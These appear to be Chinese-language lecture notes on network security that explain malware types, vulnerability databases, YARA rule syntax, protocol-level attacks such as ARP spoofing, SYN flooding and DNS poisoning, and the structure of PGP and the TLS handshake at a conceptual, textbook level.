


# 一.网络攻防的基本概念

## 1.概念

概念：研究网络空间中的**安全威胁**和**防护**问题。包括网络空间基础设施的安全和可信，以及网络空间信息的**保密性、完整性、可用性、真实性和可控性**的相关理论与技术

核心属性(CIA)：
**保密性**（Confidentiality）
**完整性**（Integrity)
**可用性**（Availability）

## 2.病毒、蠕虫、木马

**病毒**的定义：“指编制或者在计算机程序中插入的破坏计算机功能或者破坏数据，影响计算机使用并且能够自我复制的一组计算机指令或者程序代码”。(**自行执行，自我复制**)

**蠕虫(worm)病毒**是一种常见的计算机病毒，它利用网络进行复制和传播。

:yum:普通病毒与蠕虫病毒的区别：

复制方式：普通病毒需要传播受感染的驻留文件来进行复制，而蠕虫不使用驻留文件即可在系统之间进行自我复制。

传染目标：**普通病毒**的传染能力主要是针对计算机内的**文件**系统而言，而**蠕虫病毒**的传染目标是**互联网**内的所有计算机。

**木马**(Trojan Horse)，是指那些表面上是有用的软件、实际目的却是危害计算机安全并导致严重破坏的计算机程序。

**木马不具传染性**，它并不能像病毒那样复制自身，也并不“刻意”地去感染其他文件，它主要通过将自身伪装起来，吸引用户下载执行。
木马一般主要以窃取用户相关信息或隐蔽性控制为主要目的，相对病毒而言，可以简单地说，病毒破坏你的信息，而木马窥视你。 

## 3.软件漏洞

漏洞分类（按照漏洞生命周期）：

**0-day漏洞**指还处于**未公开状态**的漏洞。这类漏洞只在攻击者个人或者小范围黑客团体内使用，网络用户和厂商都不知情，因此没有任何防范手段，危害非常大。

**1day漏洞**原义是指补丁发布在1天内的漏洞，不过通常指发布**补丁时间不长**的漏洞。由于了解此漏洞并且安装补丁的人还不多，这种漏洞仍然存在一定的危害。

**n-day漏洞/已公开漏洞**是指厂商**已经发布补丁或修补方法**，大多数用户都已打过补丁的漏洞。这类漏洞从技术上因为已经有防范手段，并且大部分用户已经进行了修补，危害比较小。

## 4.漏洞库

**CVE**（通用漏洞列表）：实现了安全漏洞**命名机制**的规范化和标准化

**NVD**（美国国家漏洞数据库）：是目前世界上数据量最大，条目最多的漏洞数据库之一。

**CNNVD**（中国国家信息安全漏洞库）

**CNVD**（国家信息安全漏洞共享平台）：信息安全漏洞信息共享知识库

## 5.Yara

YARA：一款VirusTotal开发的用于恶意软件识别和分类的**规则匹配工具**。

命令行：
yara [OPTIONS] RULES_FILE TARGET
yara –s rules.yar checkdir

```shell
rule ExampleRule
{
    meta:
         author=“Mike Luo”
         threat_level=3

    strings:
        $my_text_string = "text here"
        $my_hex_string = { E2 34 A1 C8 23 FB }

    condition:
        $my_text_string or $my_hex_string
}
#关键词rule开始
#规则标识符，命名方法与C语言变量名相同（不超过128个字符）
#包含三个section: meta, strings, condition. 其中condition是必须的。
#meta：用于描述规则
#strings：字符串定义
#condition: 匹配条件定义
```

```shell
字符串标识符由$开始，后面是由字母、数字、下划线构成的序列。
字符串包括三种形式：文本、16进制、正则表达式
文本形式字符串：双引号括起来
$my_text_string=“text here”
16进制字符串：放到{}之内，由连续16进制数序列或者空格分隔构成
$my_hex_string={ E2 34 A1 C8 23 FB}
正则表达式：放到/和/之内，其中是正则表达式
$re1 = /md5: [0-9a-fA-F]{32}/

```

## 6.安全威胁、安全攻击

威胁的主要类型：**信息泄露， 完整性破坏， 服务拒绝， 未授权访问**

安全攻击的类型：**被动攻击， 主动攻击， 物理临近攻击， 内部人员攻击， 配装分发攻击**

**被动攻击**：攻击者只是窃听消息，不对消息做任何形式的修改。攻击者的目标是获取传输的信息，以便进行利用。

**主动攻击**： 避开或破坏安全部件， 引入恶意代码，破坏数据或系统完整性。（**特点：可以检测**）

**物理临近攻击**： 一个未授权的个人近距离物理接触网络、系统或设备，以修改、收集信息或者拒绝对信息的访问。这种接近可以通过秘密进入、公开访问或者两者结合

**内部人员攻击**：由在信息安全处理系统物理边界内的合法人员或者能够直接访问信息安全处理系统的人员发起的攻击。

**配装分发攻击**：硬件或软件在生产与安装过程中，或者在运输过程中，被恶意地修改。

**APT攻击**是指一种隐秘而持久的网络攻击，攻击组织通常由一个国家资助，具有政治、军事以及经济动机，通过网络攻击手段获得高价值目标网络的访问权限，并在目标系统中维持较长时间。

构建安全系统的原则：

最小权限原则（least priviledge)
默认故障安全原则（fail-safe defaults）
安全机制的经济性原则（economy of mechanism）
完全仲裁原则（complete mediation）
开放设计原则（open design)
权限分离原则（separation of priviledge）
最少共用机制（least common mechanism)
心理可接受原则（psychonogical acceptability）
纵深防御原则 （defense in depth）

# 二.互联网协议的安全性分析

正确的MAC帧头，正确的IP包头，正确的TCP报头，GET https://www.uestc.edu.cn

互联网设计之初的使用目的是用于科学研究，其基本假设就是节点的**诚实性**。

安全性问题分类
 **设计缺陷**导致的安全性问题
协议设计的缺陷，这类安全性问题会一直存在，直至该协议更新
 **实现缺陷**导致的安全性问题
协议实现的缺陷，这类安全性问题会随着软件的更新而消除

安全威胁：信息泄露，消息伪造，拒绝服务

## 网络接口层协议安全分析—— 网络嗅探

共享环境下的网络嗅探：集线器本质上是物理层的中继器

交换环境下的网络嗅探：交换机采用接口转发方式实现主机间的通信

需要通过**交换机毒化**或**ARP欺骗**

**交换机毒化**：交换表的空间是有限的，新的“MAC地址——接口”映射对的到达会替换旧的表项。如果攻击者发送大量的具有不同伪造源MAC地址的帧，由于交换机的自学习功能，这些新的“MAC地址—接口”映射对会填充整个交换机表，而这些表项都是无效的，结果交换机完全退化为广播模式，攻击者达到窃听数据的目的。

**ARP协议的缺陷**
 ARP协议设计之初没有考虑**认证问题**，所以任何计算机都可以发送虚假的ARP数据包。
ARP协议的**无状态性**。响应数据包和请求数据包之间没有什么关系，如果主机收到一个ARP响应却无法知道是否真的发送过对应的ARP请求。
ARP**缓存需要定时更新**，给攻击者以可乘之机。

**ARP欺骗**：攻击者在局域网段发送捏造的IP/MAC对应信息，篡改攻击目标的arp缓存中关于网关的表项，使自己成为假网关。假网关（攻击者）分析接收到的数据包，把有价值的数据包记录下来。假网关再把数据包转发给真正的网关

ARP欺骗攻击的特点： 危害：嗅探，中间人攻击，拒绝服务攻击
 局限性： ARP欺骗只能被用于**局域网**（攻击者必须已经获得局域网中某台机器的访问权）。

## IP层协议安全分析 —— IP假冒攻击

攻击**原理**： IP协议本身没有验证**源IP地址真实性**的机制

攻击类型

 **拒绝服务**：避免被追踪而受到惩罚，构造针对同一目的 IP 地址的 IP 分组，而源 IP 地址为随机的IP地址

 **基于 IP 地址认证的网络服务欺骗**：假冒可信的IP 地址而非法访问计算机资源，X-window、rlogin、rsh等

## IP层协议安全分析 —— IP碎片攻击

攻击原理
 链路层具有最大传输单元MTU这个特性，它限制了数据帧的最大长度，不同的网络类型都有一个上限值，以太网的MTU是1500。如果IP层有数据包要传，而且数据包的长度超过了MTU，那么IP层就要对数据包进行分片(fragmentation)操作，使每一片的长度都小于或等于MTU。
 IP首部有两个字节表示整个IP数据包的长度，所以IP数据包最长只能为0xFFFF，就是65535字节。如果**有意发送总长度超过65535 的IP报文，或构造畸形的IP碎片**，部分老的操作系统在进行碎片重组处理时会**导致系统崩溃或拒绝服务**。（溢出）

### IP 协议安全威胁的根本原因

设计时的初衷是强调数据通信的简单性和互联性，而非安全性。

1. 缺乏身份验证机制:IP 地址欺骗（IP Spoofing）

2. 缺乏数据完整性校验:IP碎片攻击
3. 缺乏保密性:流量嗅探（Traffic Sniffing）

## 传输层协议安全分析 —— TCP协议安全威胁

**拒绝服务**（Denial of Service）(**DOS攻击**)
 DoS攻击是指利用网络协议漏洞或其他系统以及应用软件的漏洞**耗尽被攻击目标资源**，使得被攻击的计算机或网络**无法正常提供服务**，直至系统停止响应甚至崩溃的攻击方式。即攻击者通过某种手段，导致目标机器或网络停止向合法用户提供正常的服务或资源访问

 利用TCP面向连接的特点 
 三次握手过程需要存储连接状态，因此会产生系统开销

**SYN Flooding**：攻击者向服务器发送大量的带有虚假地址的SYN请求，服务器发送回复信息后等待回传信息。由于未完成完整的三次握手，所以服务器一直等待客户端的ACK包，分配给这次请求的资源就不会被立即释放。服务器等待一定的时间直至超时后释放资源。由于攻击者反复发送这种半连接请求，导致服务器资源最终会被耗尽。 （**恶意不完成三次握手，消耗系统资源**）

为了防止被朔源，Syn flooding 攻击同时结合了IP假冒攻击

**特点**
针对TCP/IP协议的设计缺陷进行攻击； 发动攻击时，只要很少的数据流量就可以产生显著的效果； 攻击来源无法定位； 在服务端无法区分TCP连接请求是否合法。
 **防御措施**（RFC4987）
在防火墙上过滤来自同一主机的后续连接；采用SYN Cookie（无法防范全连接拒绝服务）

**其它针对TCP协议的攻击**
 ACK Flooding
主机接收到带有ACK状态的数据包，需要检测数据包所包含的连接四元组是否存在，如存在需要检查数据包状态数据是否合法。（消耗资源）
 序列号猜测攻击（会话劫持）
攻击者通过猜测序列号，在TCP会话中插入自己构造的数据包。
 Land攻击
构造一个SYN包，其源地址和目标地址都被设置成某一个服务器地址；导致接收服务器向它自己的地址发送SYN-ACK消息，结果这个地址又发回ACK消息并创建一个空连接；每一个这样的连接都将保留直到超时。

### TCP协议安全威胁产生的根本原因是什么？

设计之初主要以可靠性和数据传输效率为核心目标，忽略了对安全的考虑。

1.对资源消耗型攻击缺乏防御

## 传输层协议安全分析 —— UDP协议安全威胁

攻击者构造**以攻击目标IP地址为源IP地址**的UDP请求包，发送给服务器。

**服务器发送UDP响应包给攻击目标**，通常UDP响应流量是请求流量的几十倍，导致攻击目标被**DoS** （流量放大）

## 应用层协议安全分析 —— DNS协议安全威胁

DNS查询和应答是基于UDP协议，匹配不同的查询/应答是依靠报文中的**标识段（ID）**

**DNS欺骗**：客户端以特定的标识ID向DNS服务器发送域名查询数据包
DNS服务器查询之后以同样的ID返回给客户端响应数据包
攻击者**拦截**该响应数据包，并修改其内容，返回给客户端
难点在于如何获得标识号ID：可以结合ARP欺骗或ICMP重定向等手段，采用嗅探的方法得到

**DNS缓存毒化**：在被攻击者发生请求给DNS服务器时，攻击者发送大量猜测ID的伪造(其他DNS的)应答数据包给DNS服务器

**基于DNS的DDoS**：发出大量查询，被攻击者接收到大量应答

## 应用层协议安全分析 —— HTTP协议安全威胁

**跨站攻击**:浏览器对网页的展现是**通过解析HTML代码实现**的，如果**传入的参数含有代码**浏览器会解析它而不是原封不动的展示。

持久性跨站（persistent XSS or stored XSS）
**攻击数据存放于服务器**。当用户访问正常网页时，服务端会将恶意的指令夹杂在正常网页中传回给用户
非持久性跨站（non-persistent XSS or reflected XSS）
当服务端未能正确地过滤客户端发出的数据，并根据**用户提交的恶意数据**生成页面时，就有可能生成非持久性跨站攻击。
DOM 跨站（DOM-based XSS）
如果**客户端脚本**（例如JavaScript）动态生成 HTML的时候，没有严格检查和过滤参数，则可以导致 DOM 跨站攻击。

# 三. 网络安全协议基础

## 1.密码学工具箱-openssl

1.对称加密算法：加密密钥与解密密钥相同，加解密**效率高**，典型对称加密算法：AES、3DES、RC4（**适合**加密**大量数据**）

2.公钥加密算法：加密密钥和解密密钥不同，加解密**效率低**，典型公钥加密算法包括：RSA、ElGamal、ECC（**不适合**加密**大量数据**，但可用于密钥分发、数字签名等）

### 3.哈希（hash）算法：接收任意长度的数据，输出定长的散列值

密码学哈希函数应具备
**映射分布均匀性和差分分布均匀性**
**单向性**
**抗冲突性**，包括：
抗弱冲突性：<u>给定M，计算上无法找到M’</u>，满足H(M) = H(M’)
抗强冲突性：计算上也难以<u>寻找一对任意</u>的M和M’，使其满足H(M) = H(M’)

用途：检测软件**是否被篡改**，**基于口令的加密**，**数字签名**，伪随机数生成器，**消息认证码**（MAC）

#### 1）消息认证码（MAC）：确认消息**完整性**，消息**源**发认证

输入：任意长度的<u>消息</u>，发送者和接收者之间<u>共享的密钥</u>
输出：固定长度的数据：<u>MAC</u>

实现：对称加密算法、HMAC·····

#### 2）随机数属性

**随机性**：不存在**统计学**偏差，是完全杂乱的数列
**不可预测性**：不能从过去的数列推测出下一个出现的数
**不可重现性**：除非将数列本身保存下来，否则不能重现相同的数列

### 4.对称密码的密钥管理

基于可信第三方（KDC）

基于密钥协商算法

基于公钥密码

## 2.简单的安全消息系统

**公钥密码+对称密码**：公钥密码进行密钥分发，对称密码进行数据加密


忽略了身份认证过程，忽略了算法协商，忽略了效率问题

## 3.网络安全协议概览

实际的网络安全协议通常把整个协议交互过程划分为**协商过程**和**数据通信**两个步骤，并针对两个步骤分别规定了相应的语法、语义和时序。

协商过程包括：
**身份认证**。
**算法协商**，包括：加解密算法、散列算法、数字签名算法等。
**会话密钥协商**，通信双方就保护数据保密性的加密密钥达成共识。

 

应用层：**PGP**：保护**邮件通信**的隐私性。提供安全服务:完整性，保密性，数字签名

传输层：**SSL/TLS**：解决**浏览器和Web服务器之间通信**的安全性。提供安全服务：完整性，保密性，认证

IP层：**IPSec**：解决**IP-based网络**所缺少的安全性。提供以下安全服务：完整性，保密性，认证，重放保护。**AH协议**提供源发认证和数据完整性，<u>但是不提供保密性</u>；**ESP协议**提供认证、数据完整性和保密性

数据链路层：**WPA/WPA2**：解决**无线通信**。身份认证，保密性

## 4.OpenPGP协议

### 1.PGP概述

功能：加/解密，数字签名，**支持数据的压缩和解压**，**电子邮件兼容性**

### 2.PGP加密与解密

加密

生成和加密会话密钥
（1）用伪随机数生成器生成会话密钥k	---k
（2）采用公钥加密算法，用接收者的公钥k<sub>p</sub>加密会话密钥k	--k<sub>p</sub>(k)
压缩和加密消息
（3）压缩消息	--M
（4）使用对称密码k对压缩后的消息进行加密	--k(M)
（5）将加密的会话密钥（k<sub>p</sub>(k)）与加密的消息（k(M)）拼接起来	--k(M)|k<sub>p</sub>(k)
（6）将步骤（5）中结果转换为文本数据，得到报文数据。

#### :yum:**接收者私钥管理**--**PBE**

PBE：导出key

PBKDF2（Password Based Key Derivation Function 2）的迭代次数，缺省是10000次。PBKDF2生成48字节，其中0~31是key, 32~47是IV

 

只采用加解密功能，具有消息的**保密性**，也确保了**接收者是正确的**，但是**无法认证发送者**的身份。

### 3.PGP生成和验证数字签名

**解密私钥**
（1）	发送者输入用于解密私钥的口令
（2）	hash（口令||盐）—>解密私钥的密钥(KEK)
（3）	解密钥匙串中经过加密的私钥

**生成数字签名**
（4）	用单向散列函数计算消息的散列值	--H(M)
（5）	用步骤（3）中私钥对上述散列值进行签名	--S<sub>k</sub>(H(M))
（6）	将步骤（5）中生成的数字签名与消息进行拼接	--S<sub>k</sub>(H(M))|M
（7）	将步骤（6）中的结果进行压缩
（8）	将步骤（7）中的结果转换为文本数据，即：报文数据

**验证数字签名**

提取发送者发送的散列值，对比散列值

（1）将报文数据（文本形式）转换为二进制数据
（2）解压缩二进制数据
（3）将解压后的数据分离为经过签名的散列值和消息两部分	--S<sub>k</sub>(H(M))，M
（4）将经过签名的散列值用发送者的公钥进行解密，提取出发送者对原始消息生成的散列值	--H(M)

（5）将步骤（3）中的消息用单向散列函数计算散列值	--H'(M)
（6）对比步骤（4）的散列值和步骤（5）的散列值，如果一致，则数字签名验证成功，步骤（3）发送的消息就是发送者发送的消息。

   

### 4.PGP加密+数字签名——解密+签名验证

 


### 5.PGP信任网（web of trust）

PGP采用信任网（web of trust）来**确保公钥的有效性**

信任网：基本原则

通过**自己**的**数字签名**进行确认(**1个**即可)
通过自己**完全信任的人**的**数字签名**进行确认(**1个**即可)
通过自己**有限信任的多个人**的**数字签名**进行确认(只有当**2个或以上**的有限信任的人对某个公钥签名时，才能确认该公钥是有效的。)

| 绝对信任（是持有私钥的本人） |
| ---------------------------- |
| 完全信任                     |
| 有限信任                     |
| 不信任                       |
| 未知密钥                     |
| 未设置                       |

 

### 6.PGP应用示例

PGP软件：**GPG**4Win

1）创建密钥对
2）导入/导出密钥（**导出公钥即导出证书**，通过面对面提交，也可以通过**目录服务**来获取）
3）签名/加密
4）验证/解密（为什么解密需要输入passphrase：要解密私钥）

如果是从官方站点下载，则传输过程中存在**中间人攻击**风险。如果从其它站点下载，这些站点本身就可能是一种中间人，他们**可能重新打包文件，修改内容**等等。文件完整性校验就可以通过**哈希值**进行，也可以用我们这里讲的**gpg工具**来完成。

# 四.TLS协议(传输层安全协议)

## 0.TLS协议概述

发展：**SSL**1.0->SSL3.0->**TLS**1.0->TLS1.2->TLS1.3

SSL/TSL：主要用于**<u>web</u>**的安全传输协议

TLS的设计目标：保密性，完整性，身份认证

 

## 0.TLS协议描述语言

基本原则：
**基本数据块**的大小为**一个字节**（**8bits**）。
注释采用“/*”开始，“*/”结束。
“[[ ]]”表示可选的部件。
单字节实体，如果其中包含无具体含义的数据，其类型为opaque。

------

定长向量：**T T' [n];**
T为数据类型，T’ 是向量名称，n是向量中**字节数**

uint8 foo[4]; ------4个单字节整数-------共4字节

uint16 foo[4]; --------2个双字节整数-----------共4字节

------

变长向量：**T T’<floor..ceiling>;**

T为数据类型，T’ 是向量名称，floor、ceiling分别表示所占**字节数**的**下界和上界**

uint32 number<4..20>;----------最少4个字节（1个4字节整数），最多20个字节（5个4字节整数）

------

枚举：enum{e1(v1),e2(v2),…,en(vn)[[,n]]} Te;
Te变量名，e1到en是Te可能的取值；v1到vn则是为e1到en指定一个具体指代数值；n表示可取值的个数。

enum {warning(1),fatal(2), (255)}AlertLevel;
AlertLevel这个变量可以取值为warning或者fatal，最多可有255个取值。

------

结构体：struct {
	T1 f1;
	T2 f2;
	…
	Tn fn;
} [[T]];

变体：struct {
	T1 f1;
	T2 f2;
	…
	Tn fn;
	select(E){---------------根据E的值来确定fv选择哪个类型
		case e1: Te1;
		case e2: Te2;
		…
		case en: Ten;
	}[[fv]];
} [[Tv]]; 

## 1.TLS Record协议（记录协议）

**功能目标：**

:yum:**消息传输**（**分片**fragment(缓冲区超过长度限制)、**组合**(同一协议的小缓存区)）

:yum:**加密及完整性验证**（按照握手协议协商的安全参数）

**压缩**（设计中有，现实中没有）

**扩展性**（记录协议**只关注数据加密和传输**，其余功能由其它**子协议**完成）

 

```c
struct { /*明文分片*/
	ContentType type; //记录类型（CHANGE_CIPHER_SPEC，ALERT，HANDSHAKE，APPLICATION DATA）1字节
	ProtocolVersion version; //版本号（SSL 3.0、TSL 1.0····）2字节
	uint16 length; //数据长度（最大2^14字节(不包括头)）2字节
	opaque fragment[TLSPlaintext.length];//明文数据分片
} TLSPlaintext;
```

```c
struct {/*压缩*/
	ContentType type; 
	ProtocolVersion version
	uint16 length;
	opaque fragment[TLSCompressed.length];
    } TLSCompressed

```

```c
struct {/*安全处理*/
      ContentType type;
      ProtocolVersion version;
      uint16 length;
      select (SecurityParameters.cipher_type) {//根据加密类型进行加密
          case stream: GenericStreamCipher;
          case block:  GenericBlockCipher;
          case aead:   GenericAEADCipher;
      } fragment;
  } TLSCiphertext;

```

```c
struct {/*安全处理-GenericBlockCipher*/
	opaque IV[SecurityParameters.record_iv_length];//IV
	block-ciphered struct {
	    opaque content[TLSCompressed.length];//压缩后的数据分片
         opaque MAC[SecurityParameters.mac_length];//MAC
         uint8 padding[GenericBlockCipher.padding_length];//填充
         uint8 padding_length;//填充
          };
      } GenericBlockCipher;
```

封装结果 

## 2.TLS Handshake协议（握手协议）

**功能目标**：

:yum:**算法协商**

**:yum:密钥协商**

**:yum:身份认证**

```c
struct {/*握手协议消息格式*/
          HandshakeType msg_type;    /* handshake type  1字节*/ 
          uint24 length;             /* bytes in message  3字节*/
          select (HandshakeType) {    /*握手类型*/
              case hello_request:       HelloRequest;
              case client_hello:        ClientHello;
              case server_hello:        ServerHello;
              case certificate:         Certificate;
              case server_key_exchange: ServerKeyExchange;
              case certificate_request: CertificateRequest;
              case server_hello_done:   ServerHelloDone;
              case certificate_verify:  CertificateVerify;
              case client_key_exchange: ClientKeyExchange;
              case finished:            Finished;
          } body;
      } Handshake;

```

:yum:**HelloRequest**

告诉client应该**重新开始一个协商过程**,没有消息体 type=len=0(若已在协商则会被忽略)

没有消息体 type=len=0，struct { } HelloRequest;

:yum:**ClientHello**

将客户端**支持的功能**和**首选项**发送给服务器

在新建连接时，重新协商时（客户端或服务器发起HelloRequest）

```c
struct {
   ProtocolVersion client_version;
   Random random;
   SessionID session_id;
   CipherSuite cipher_suites<2..2^16-2>;//密码套件
   CompressionMethod compression_methods<1..2^8-1>;//压缩方法
   select (extensions_present) {
       case false:
           struct {};
       case true:
           Extension extensions<0..2^16-1>;//扩展以扩展块的形式出现ClientHello和ServerHello消息的末尾
    };
 } ClientHello;
```

:yum:**ServerHello**

当服务器收到来自客户端的ClientHello消息后，如果它能够找到一套可以接受的算法（即可以就加密算法等取得协商一致），服务器将发送ServerHello消息来**响应客户端的ClientHello消息**。

:yum:**Certificate**

服务器向客户端发送Certificate消息，使得客户端能够**认证服务器的身份**

:yum:**ServerKeyExchange**

服务器发送server Certificate消息后，立即发送ServerKeyExchange消息（如果是匿名协商，则在ServerHello后立即发送该消息）。同时，仅当server **Certificate**消息包含的**信息不足**以让客户端交换一个premaster secret时，**才发送ServerKeyExchange**消息。比如：DHE_DSS、DHE_RSA、DH_anon。而对于密钥交换算法RSA、DH_DSS、DH_RSA，如果发送ServerKeyExchange消息则是**非法**。

可以让客户端确保收到的pubkey就是来自于真正的server

:yum:**CertificateRequest**

服务器使用CertificateRequest消息**请求对客户端进行身份验证**，其中包含了服务器可以接受的证书类型列表，可接受的CA的列表。

:yum:**ServerHelloDone**

服务器发送ServerHelloDone消息来**表示ServerHello及相关消息的结束**，这些消息用于完成密钥交换，发送该消息后，服务器将等待客户端响应。而客户端收到该消息后，可以继续他的密钥交换阶段。ServerHelloDone消息**不包含任何内容**。

:yum:**ClientKeyExchange**

如果客户端发送了Client Certificate消息，ClientKeyExchange消息应该在该消息后立即发送。否则，在客户端收到服务器发送的ServerHelloDone后立即发送该消息。向服务器**提供**用于**生成对称加密密钥等所需的数据**

:yum:**CertificateVerify**

只有服务器向客户端发送CertificateRequest消息的情况下，客户端才会向服务器发送CertificateVerify消息，以向服务器**证明自己的确持有客户端证书**的私钥。handshake_messages：迄今为止收到和发送的**所有握手消息的拼接**，从client hello开始，不包括当前这个消息。包括握手消息的type字段和length字段。**用于证明，客户端确实就是证书的拥有者。**

:yum:**FINISHED**

发送ChangeCipherSpec来激活已经协商好的密码套件之后，客户端发送Finished消息，表明TLS握手协商完成，相当于**告诉服务器“握手结束。**由于已经完成了密码规格切换，因此Finished消息是使用切换后的密码套件来发送的，也就是**Finished消息不是以明文方式发送的，而是通过下层的记录协议进行加密发送。**(**FINISHED被加密**)

Finished消息的内容采用PRF函数生成，其输入包括：master_secret, finished_label，**之前所有handshake消息组合的hash值。**

**<u>*降级攻击：*</u>**MiTM攻击者修改ClientHello消息里面的密码套件列表，**用较弱的密码套件替换较强的密码套件**，从而降低所建立的通信信道的安全性。

Finished消息，包含了所有握手消息的hash，如果攻击者篡改前面的握手消息，则无法通过验证。（**FINISHED消息可防范降级攻击**）

 


## 3.TLS ChangeCipherSpec协议

在handshake中表示要切换密码了

## 4.TLS Alert协议

以简单的通知机制告知通信对端出现异常状况

**功能：**

:yum:**报告错误**

:yum:**通知连接关闭**

**警告消息**（warning ）:通告对方有关报警信息，不会导致连接的关闭。

**致命消息**（fatal ）:将导致连接被**立即中止**，并将与这个连接相关的会话（SessionID）作废，以免这个会话被继续用来建立新的连接。

一旦一端确定无数据发送，**决定关闭连接**，就会发送一个**close_notify警报**。另一端收到这个警报后，会丢弃任何还未写出的数据，并发送自己的close_notify警报。警报之后的任何消息都会被忽略。

目的：**防止truncation attack（截断攻击）**
攻击者主动发送TCP FIN包，提前结束通信，阻断后续消息的发送。
如果没有close_notify警报功能，通信双方**无法确定是被攻击了还是通信真正结束了。**

## 5.TLS Application Data协议

## 6.TLS Cipher Suite(密码套件)

**密钥交换算法**：（ECDHE）
身份认证算法(**签名算法**)：公钥加密（RSA）
**加密算法**：对称加密（AES）
加密**密钥大小**：（128）
加密**算法模式**（可应用时）：（GCM）
MAC算法（可应用时）
**PRF**(伪随机函数HASH)（TLS1.2）:（SHA256）
用于Finished消息的散列函数（TLS1.2）

 

特殊密码套件：在TLS的初始连接时，使用CipherSuite TLS_NULL_WITH_NULL_NULL = { 0x00,0x00 };

sslyze工具：查看可接收的密码套件

## 7.密钥导出

TLS中，需要用到三种密钥：(**Client和server的密钥不相同**)

用于消息加密的**对称密码密钥**（encryption key）
CBC模式的**初始化向量**（IV）
用于**消息认证码的密钥**（MAC key）

如果采用RSA进行密钥协商:
client生成一个**随机值**，在发送ClientKeyExchange消息时用server的**公钥加密**，发送给server，最后双方均具有这个秘密，即为**pre_master_secret**。

 

## 8.恢复以前的session

完整的握手过程需要的开销较大，在稍后的连接中**重用已有的会话信息**，opaque **SessionID**<0..32>;/**标识一个session**/（在Client/ServerHello中）

客户端Session ID：为空/不为空

服务端Session ID：为空(**没有找到**匹配的项或者**没有重用**该会话信息的**意愿**)  /  不为空(**找到**一个匹配的且服务器**愿意**以指定的会话状态重建连接)

 

:yum:**缺点：**

服务器为每个客户端创建和维护一个session cache：服务器需要**大量的存储空间**

服务器<u>负载均衡</u>：**多个服务器**之间**共享**session cache是个**难**题

### 解决：Session Ticket机制

ticket指的是一个由服务器创建和使用的且受密码学保护的**数据结构**，服务器**使用ticket来重建**与特定**会话**相关的状态。

:yum:第一次通话

ClientHello：Session ID为空；有**SessionTicket *<u>extension</u>***，但是为空，**表示支持SessionTicket机制**。

ServerHello：Session ID为空；有SessionTicket extension，但是为空，表示支持SessionTicket机制。后面会发送NewSessionTicket握手消息

**服务器发送New Session Ticket**（新种类的握手消息），通过该握手消息给客户端发送一个ticket，即**客户端存储ticket**。
注意ticket的值，后面客户端是发送同样的ticket给服务器来恢复会话的。

:yum:第二次通话

**ClientHello**：其中的SessionID不为空！（其中的**data，即为加密的ticket**）

ServerHello包含同样的SessionID，客户端通过这种方式区分服务器是在恢复一个会话还是在进行一次完整的握手。

ServerHello消息后是ChangeCipherSpec消息，然后是加密的Finished消息。
表明：上述是一个简单的握手过程，恢复以前的会话。

## 9.TLS应用

分设端口

| 普通协议 | 普通协议端口 | 安全协议 | 安全协议端口 | 描述           |
| -------- | ------------ | -------- | ------------ | -------------- |
| HTTP     | 80           | HTTPS    | 443          | 超文本传输协议 |
| FTP      | 21           | FTPS     | 990          | 文件传输协议   |
| Telnet   | 23           | Telnets  | 992          | 远程登录协议   |

**向上协商**：
通过修改应用层协议，**基于应用层协议来<u>*协商*</u>是否采用TLS协议**而**不是采用端口分设来决定**是否采用TLS协议

## *10.安全协议指纹

 

# 五.无线局域网安全

## 1.无线局域网简介

:yum:**无线局域网组件:**

 

**无线媒介**（Wireless Medium）：传输无线**MAC帧**的**媒介**，主要包括射频和红外两种，目前主要指**射频**

**STA**(Station)：**具有无线网卡的设备**，比如：笔记本电脑、智能手机等

**AP**(Access Point)：**无线接入点**，能为已经关联的STA提供DS服务

**DS**（Distribution System）：用于**连接**一系列基本服务集（Basic Service Sets，**BSSs**）和局域网，从而创建一个扩展服务集（Extended Service Set，**ESS**）**的系统**。

:yum:无线局域网构建

**SS** (Service set)，**服务集**：服务集是指运行在**相同联网参数**下的一组无线网络设备

**BSS**(Basic Service Set)，**基本服务集**：基本服务集是指运行在**相同媒介访问特征**(如无线频率、调制模式等)下的一组设备
包括: Independent BSS（几个STA互联--IBSS）和Infrastructure BSS（需要AP参与--BSS）

**ESS**(Extended Service Set)，**扩展服务集**：扩展服务集是在同一逻辑网段（比如IP子网、VLAN等）下的一个或者多个基本服务集构成的逻辑单元。逻辑网络（包括ESS）通过**SSID**来识别，SSID作为网络名称，通常表现为自然语言命名的标签

:yum:WLAN的基本工作原理

